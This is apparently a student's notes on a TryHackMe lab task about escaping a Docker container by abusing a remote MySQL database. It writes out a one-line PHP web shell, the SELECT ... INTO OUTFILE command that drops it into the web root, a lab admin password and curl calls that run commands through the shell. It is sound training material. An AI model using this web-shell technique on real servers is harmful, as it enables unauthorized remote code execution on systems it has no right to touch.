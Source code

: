 Now that you have identified that you are in a container and have performed all the information gathering and situational awareness you can, you can escape the container by exploiting the remote database.  

There are several ways to escape a container, all typically stemming from misconfigurations of the container from services or access controls.  

For more information about container best practices and docker security, check out this OWASP cheat-sheet, [https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html).  

A method that's not quite as common is Exploitation. Exploits to escape Containers aren't as common and typically rely on abusing a process running on the host machine. Exploits usually require some level of user interaction, for example, [CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/). It can also be beneficial to use a container enumeration script such as DEEPCE, [https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce).  

Since we gained access to a remote database, we can utilize it to gain command execution and escape the container from MySQL.  

The basic methodology for exploiting MySQL can be found below.  

- Access the remote database using administrator credentials
    
- Create a new table in the main database
    
- Inject PHP code to gain command execution
    
    Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`  
    
- Drop table contents onto a file the user can access  
    
- Execute and obtain RCE on the host.
    

Looking at the above exploit may seem complicated, but we can break it down further and provide more context to make it simpler.  

We can use a single command to inject our PHP code into a table and save the table into a file on the remote system. We are writing any code that we want onto the remote system from this command, which we can then execute, giving use code execution. Find the command used below.  

Command used: `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

Now that we have a file that we control dropped on the system, we can curl the address and obtain RCE from the dropped file. Find example usage below.  

Example usage: `curl 192.168.100.1:8080/shell.php?cmd=whoami`

---
# Your job

## Break out the container

The key to breaking out here is the fact we have access to that DB. The access we have permits us to write to the database, then we can call our written table enteries.
The following commands are run on the victim machine.
### Access the remote database using administrator credentials

`mysql -u admin -p -h 192.168.100.1`

Password: `!123SecureAdminDashboard321!`

### Inject our PHP code into a table and save the table into a file on the remote system

`select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`


### Accessing 192.168.100.1 machine

- Execute and obtain RCE on the host.
	You can’t view the website via a browser, as you still don’t have a proxy through this box and you only have command line access. So instead you need to use `curl`.
	
	www-data@f988aa7b2fb3:/var/www/html$ `curl 192.168.100.1:8080/shell.php?cmd=whoami`
	
	![[Task 18 - Making Thin Lizzy Proud-20240917142609190.webp]]

- Check that you are talking to a different machine.
	www-data@f988aa7b2fb3:/var/www/html$ `hostname`
	![[Task 18 - Making Thin Lizzy Proud-20240917143015435.webp]]
	
	www-data@69cd1465ecc9:/var/www/admin$ `curl 192.168.100.1:8080/shell.php?cmd=hostname`
	![[Task 18 - Making Thin Lizzy Proud-20240917143142963.webp]]


> [!INFO]
> It should be noted, that the one liner provided by TryHackMe is actually a much better solution as it doesn’t write anything to the database, and therefore will be less logs and if the outfile is removed at the end of the engagement, any forensics might be slightly more difficult (although the command should still show in the MySQL logs!)
>  How does that one liner work? Well basically it just skips writing anything to the table, instead it selects the PHP code and directs it straight into a file.

**Next step:** [[Task 19 - Going%20out%20with%20a%20SHEBANG%21]]
